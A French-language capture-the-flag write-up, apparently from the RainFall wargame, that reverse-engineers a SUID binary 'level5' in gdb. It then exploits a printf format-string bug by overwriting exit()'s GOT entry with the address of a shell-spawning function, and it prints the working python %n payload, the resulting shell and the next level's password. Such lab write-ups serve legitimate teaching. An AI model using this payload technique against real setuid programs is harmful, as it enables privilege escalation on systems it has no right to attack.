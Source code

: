 ## Analyse

- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 level6 users  5385 Mar  6  2016 level5
  [...]
  ```
    - On a un binaire appartenant a level6 dans le home avec les droits SUID.

- `./level5`
  ```
    
  ```
  - Le programme attend un input
    - `test`
      - `test`
    - Le programme affiche le paramètre qu'on lui donne

- `gdb level5`
  - `set disassembly-flavor intel`
  - `info function`
    ```asm
    [...]
      0x080484a4  o
      0x080484c2  n
      0x08048504  main
    [...]
    ```
    - on trouve une fonction n() et une fonction o() en plus du main
  - `disas main`
    ```asm
    Dump of assembler code for function main:
       0x08048504 <+0>:	push   ebp
       0x08048505 <+1>:	mov    ebp,esp
       0x08048507 <+3>:	and    esp,0xfffffff0
       0x0804850a <+6>:	call   0x80484c2 <n>
       0x0804850f <+11>:	leave
       0x08048510 <+12>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire, alignement de la stack<br/><br/>
    - <+6>
      - Call la fonction n()<br/><br/>
    - <+11> ... <+12>
      - Réinitialisation de la mémoire, fin d'exécution<br/><br/>

  - `disas n`
    ```asm
    Dump of assembler code for function n:
       0x080484c2 <+0>:	push   ebp
       0x080484c3 <+1>:	mov    ebp,esp
       0x080484c5 <+3>:	sub    esp,0x218
       0x080484cb <+9>:	mov    eax,ds:0x8049848
       0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
       0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
       0x080484dc <+26>:	lea    eax,[ebp-0x208]
       0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
       0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
       0x080484ea <+40>:	lea    eax,[ebp-0x208]
       0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
       0x080484f3 <+49>:	call   0x8048380 <printf@plt>
       0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
       0x080484ff <+61>:	call   0x80483d0 <exit@plt>
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 536 octets pour la stack)<br/><br/>
    - <+9> ... <+35>
      - Stocke dans eax la valeur du data segment register 0x8049848
        - `x/s 0x8049848`
          - `0x8049848 <stdin@@GLIBC_2.0>:	 ""`
      - Stocke la valeur de eax (stdin) sur la stack (à esp + 8)
      - Stocke 0x200 (512) sur la stack (à esp + 4)
      - Fait pointer eax sur ebp - 520
      - Stocke eax (l'adresse ebp - 520) sur la stack (à esp)
      - Call fgets() avec les arguments stockés sur la stack<br/><br/>
    - <+40> ... <+49>
      - Fait pointer eax sur ebp - 520 => l'adresse du retour de fgets()
      - Stocke eax (l'adresse du retour de fgets()) sur la stack (à esp)
      - Call printf() avec l'argument stocké sur la stack<br/><br/>
    - <+54> ... <+61>
      - Stocke 0x1 (1) sur la stack
      - Call exit() avec l'argument stocké sur la stack

  - `disas o`
    ```asm
    Dump of assembler code for function o:
       0x080484a4 <+0>:	push   ebp
       0x080484a5 <+1>:	mov    ebp,esp
       0x080484a7 <+3>:	sub    esp,0x18
       0x080484aa <+6>:	mov    DWORD PTR [esp],0x80485f0
       0x080484b1 <+13>:	call   0x80483b0 <system@plt>
       0x080484b6 <+18>:	mov    DWORD PTR [esp],0x1
       0x080484bd <+25>:	call   0x8048390 <_exit@plt>
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 24 octets pour la stack)<br/><br/>
    - <+6> ... <+13>
      - Stocke la valeur de 0x80485f0 sur la stack (à esp)
        - `x/s 0x80485f0`
          ```
          0x80485f0:	 "/bin/sh"
          ```
      - Call system() avec l'argument stocké sur la stack (à esp)
    - <+17> ... <+18>
      - Réinitialisation de la mémoire, fin d'exécution
    - <+18> ... <+25>
      - Stocke 0x1 (1) sur la stack
      - Call _exit() avec l'argument stocké sur la stack

## Exploit

Ni main() ni n() n'appellent o(), dommage car il nous pop un shell.
On remarque également qu'il n'y a pas de return(), uniquement des call à exit() donc inutile de réécrire l'eip on va sortir sans y passer.
Il va falloir [remplacer l'adresse de la fonction exit() dans la Global Offset Table par l'adresse de la fonction o()](https://axcheron.github.io/exploit-101-format-strings/#code-execution-redirect) pour avoir notre shell.


- `objdump -R level5`
  ```
   OFFSET   TYPE              VALUE
  08049814 R_386_GLOB_DAT    __gmon_start__
  08049848 R_386_COPY        stdin
  08049824 R_386_JUMP_SLOT   printf
  08049828 R_386_JUMP_SLOT   _exit
  0804982c R_386_JUMP_SLOT   fgets
  08049830 R_386_JUMP_SLOT   system
  08049834 R_386_JUMP_SLOT   __gmon_start__
  08049838 R_386_JUMP_SLOT   exit
  0804983c R_386_JUMP_SLOT   __libc_start_main
  ```
  - l'adresse d'exit dans la GOT est `08049838`
- `gdb level5`
  - `info function o`
    ```
    All functions matching regular expression "o":

    Non-debugging symbols:
    0x080483c0  __gmon_start__
    0x080483c0  __gmon_start__@plt
    0x08048420  __do_global_dtors_aux
    0x080484a4  o
    0x080485a0  __do_global_ctors_aux
    ```
    - l'adresse de o() est 0x080484a4

  - `python -c 'print "AAAA" + "%x " * 10' | ./level5`
    ```
    AAAA200 b7fd1ac0 b7ff37d0 41414141 25207825 78252078 20782520 25207825 78252078 20782520
    ```
    - On commence a lire notre format string dans la stack au 4eme argument donné à print.
  
  - `python -c 'print"\x38\x98\x04\x08 %4$p"' | ./level5"
    ```
    8 0x8049838
    ```

On va à nouveau se servir du modifier %n pour écrire l'adresse de o() dans l'adresse du exit(), pour ca on va mettre autant de padding que la représentation en int de l'adresse de o(), moins 4 octets pour l'adresse de exit():
- `python -c 'print"\x38\x98\x04\x08%1$" + str(int(0x080484a4) - 4) + "d%4$n"' > /tmp/exploit`
- `cat /tmp/exploit - | ./level5`<br/>
  <img src="https://vignette.wikia.nocookie.net/spongebob/images/f/f7/Two_hours_later.jpg/revision/latest?cb=20101111022814" style="width: 350px;"/><br/>
  ```
                                    512
                  
  ```
  - `whoami`
    ```
    level6
    ```
  - `cat /home/user/level6/.pass`
    ```
    d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
    ```
